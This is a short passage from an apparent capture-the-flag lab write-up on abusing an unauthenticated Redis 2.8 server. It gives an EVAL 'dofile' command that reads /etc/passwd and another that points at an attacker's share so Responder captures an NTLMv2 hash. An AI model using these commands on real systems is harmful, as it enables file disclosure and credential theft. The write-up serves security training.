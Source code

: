 https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme/vulnnetactive.md

The Redis instance was running version 2.8, and did not require authentication. It contained no keys of note. However, this version of Redis contains a 'vulnerability' where you can use 'dofile' in the LUA sandbox, allowing you to access files or network shares. E.g. EVAL "dofile('/etc/passwd')" 0 would work on a linux machine.
For a windows machine, notably, this can be used to access network shares. Which means, if I set up responder, I might be able to catch a hash.

Setting up responder from this repo (the new version, 3.0+, not the kali default version), https://github.com/lgandx/Responder, then using something like EVAL "dofile('//yourip//share')" 0 will catch an NTMLv2 hash.
